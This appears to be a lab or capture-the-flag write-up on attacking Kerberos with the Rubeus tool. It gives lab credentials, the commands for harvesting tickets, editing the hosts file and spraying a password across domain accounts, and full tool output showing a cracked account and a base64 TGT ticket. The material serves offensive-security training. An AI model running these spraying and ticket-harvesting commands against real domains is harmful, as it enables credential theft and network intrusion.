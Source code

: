 # Harvesting & Brute-force Tickets w/ Rubeus
 RDP or SSH into machine  
 Username: Administrator  
 Password: P@$$W0rd  
 Domain: controller.local

 ## Harvesting Tickets w/ Rubeus
 - Powerful tool for attacking Kerberos
 
 Attacks include:
 - Overpass the Hash
 - Ticket requests/renewals
 - Ticket Management
 - Ticket Extraction
 - Harvesting
 - Pass the Ticket
 - Kerberoasting

Link to download Rubeus:
 https://github.com/GhostPack/Rubeus

 <pre>C:\Users\Administrator>Rubeus.exe harvest /interval:30</pre>

 ## Brute-forcing / Password Spraying w/ Rubeus
 Brute-forcing passwords: use 1 account + wordlist of passwords

 Password spraying: use 1 password (Password1) + spray against all user accounts in the domain

 This attack will take a given Kerberos-based password and spray against all found users. 
 - Generate a .kirbi ticket  

This ticket is a TGT that can be used to get service tickets from KDC.

Add Domain Controller to Windows host file:
<pre>echo 10.10.233.155 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts</pre>

- Take a given password `Password1` and spray against all found user accounts
- Give the .kirbi TGT for that user

<pre>controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe brute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7TILMgsNpUYqwaAS34F+MB9rZ1UlRQhkPyVuaDa6C+uo0SiLDVJt4FdXIRv4lFA9BmvKhfSYvPZG
      qa53GXSMXqeFw1TGkz1fp1BnVAhAz47S36f4LkF5nHp4ZXUtr2nE7mRLQ56w/3UEVGL2TygZbOA/T/Yq
      redPW2mJUCEZt5uMxrj6lofRWk684TgzDxaXwN0EoMYB0XbyomDq+z7LCTCdk2+vzBA36qNDzpfRDD7R
      PdK4gizUgYnDs0AfOj3R6YvZB1Ot5EKKos62gJYk3AtkC2pJxM2FJ/xbNxUAd5eUmFwGlzVD/0cOUwqP
      RJLm5vauhpS9eoSLbP6XnEQ2SCfblMN2Ht0gk/igxNRRSHvZC3EW1lW1x6qCv52vpYGXcSH3VhkZqCAy
      2EKNaibsagX9XH9vJ6pQBZLTISEQRnj4wMXToOee9I6JrFuQwMvx3lJPj9JJaSE3EStiejDDffCF6Hl4
      zZh3bW5xBHuHrqce4nJPQ+VGYLH9wkHaxw+HRCFzPRPD7pZhGHuyf3I6x/cWADF0XR2fnH1TEJUWlW1f
      WosDwirbl+sQtFGV5QuyJUXMT0HblayC/ZkwYbmaLgfsscGt2/3UyxIealECUiBBrbaLK9MY2Rm4/uPc
      gjAAfPknAQju2pzn4Zg9kxIbvpgyQxZz4rwrBw1AAAwrS99PQrNZSgHdKBs2A/TV6OVikDZTwOoylLGu
      ZS+AzLPqwLEpJVjJpITkW0OP4tYoWr2A5HhCgchXuuoqQe7+EDUIweUT6en/f9v7RYJ05V/CzwmUxE2k
      WQPRbobOkXatfCU1PBN/pLG2qOnURrKi/wQOZKOLe2w90UovYuEmurl4WJJN9soP67w2QBToJCK2pnF7
      +Ba3+PONwhAY/CDDXFmWvzvRDvUVS0Q5xeoMWuG7CESq9redu+B9r7TKiFkbiG6rC0LiDJo5NWQtl6rK
      S2YhVtR/SPEx/RFxG/j1IMgwXhKMhsSd2Iro4td9BeGNBu0hP1Vdprr7CtdzLPXoQONL94HCbBk3b9eG
      dDD7CJ13irgJFB7t30Jz9qz6/C22Y+ID9JZgmGEyxbQNXg83KCl2Peo1QhbZqcop8i9FuqSocpl3CGOL
      qlFWgMWuuYJSEUmS1rJJ34vXywc35VPrAmouyircbdF6o7mc8XqRbF3kWGDCu01SqsGv8sEpQJGrimhJ
      7pebDKTTYsasnj7Do7C/T3Gw/vCl9nQ0kuvDzS6IXhJpQ9pO7W/7VWrfmKutDRQq5EYBcswo2OFeKS6J
      h3TAAebkCDYqavQT8c7wTsqZyw2Q8KxFw2a2HPirByR/JeekfSJBTVRZgOWKk6aUYqOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIL3OWqvP1K4tw+KsTORjBVlbasF+jyAa5JZG
      CTnM6GUnoRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIzMDkxMDIyMjUyMFqmERgPMjAyMzA5MTEwODI1MjBapxEYDzIwMjMwOTE3MjIyNTIwWqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs</pre>
